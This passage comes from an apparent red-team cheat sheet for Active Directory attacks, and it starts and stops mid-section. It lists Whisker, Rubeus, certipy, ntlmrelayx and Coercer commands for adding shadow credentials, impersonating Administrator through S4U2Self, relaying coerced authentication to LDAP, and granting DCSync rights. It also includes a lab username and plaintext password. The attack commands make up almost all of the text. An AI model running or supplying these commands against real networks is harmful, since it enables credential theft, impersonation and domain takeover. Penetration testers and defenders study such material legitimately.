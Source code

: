 ````
```
.\Whisker.exe list /target:<TARGET OBJECT> /domain:<FQDN DOMAIN> /dc:<FQDN DC>
```

#### Run the printed Rubeus command and retrieve NTLM hash
```
Rubeus.exe asktgt /user:.... /certificate:..... /....
```

#### Perform S4USelf attack to gain TGS ticket
- Possible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM
- Impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right.
- Make sure they are local admin on the target machine.
```
.\Rubeus.exe s4u /self /impersonateuser:Administrator /altservice:cifs/<FQDN COMPUTER> /dc:<FQDN DC> /ticket:<TICKET BASE64> /ptt
```

- Or use the NTLM (Not opsec safe)

```
.\Rubeus.exe s4u /self /impersonateuser:Administrator /altservice:cifs/<FQDN COMPUTER> /dc:<FQDN DC> /user:'<COMPUTERACCOUNT>$' /rc4:<NTLM> /ptt

.\Rubeus.exe s4u /self /impersonateuser:Administrator /altservice:http/<FQDN COMPUTER> /dc:<FQDN DC> /user:'<COMPUTERACCOUNT>$' /rc4:<NTLM> /ptt
```

#### Check access
```
dir \\<TARGET FQDN>\c$
winrs -r:<TARGET FQDN> whoami
```

#### Cleanup
```
.\Whisker.exe remove /target:<TARGET OBJECT> /domain:<FQDN DOMAIN> /dc:<FQDN DC> /deviceid:<DEVICE ID>
```

### Linux
- Possible to use python version of whisker https://github.com/ShutdownRepo/pywhisker
#### Add shadow credentials and retrieve NTLM & .ccache
```
certipy shadow auto -k -no-pass -dc-ip <DC IP> -account <SAMACCOUNTNAME OBJECT> -target <FQDN DC> -debug
```

#### Add shadow credentials Relay
```
ntlmrelayx.py -t ldap://<FQDN DC> --shadow-credentials --shadow-target '<SAMACCOUNTNAME OBJECT>'

python3 Coercer.py coerce -l cb-ws.certbulk.cb.corp -t cb-store.certbulk.cb.corp -u studentx -p 'IamtheF!rstStud3nt#' -d certbulk.cb.corp -v --filter-method-name "EfsRpcDuplicateEncryptionInfoFile"
```

### Permissions on Domain Object
#### Writedacl - Add permissions for dcsync
- Use ```Remove-ObjectAcl``` to remove the ACL's
```
Add-DomainObjectAcl -TargetIdentity 'DC=<PARENT DOMAIN>,DC=<TOP DOMAIN>' -PrincipalIdentity '<USER>' -Rights DCSync -Verbose

#After impersonating the user with these permissions the above didn't work, but this did:
````
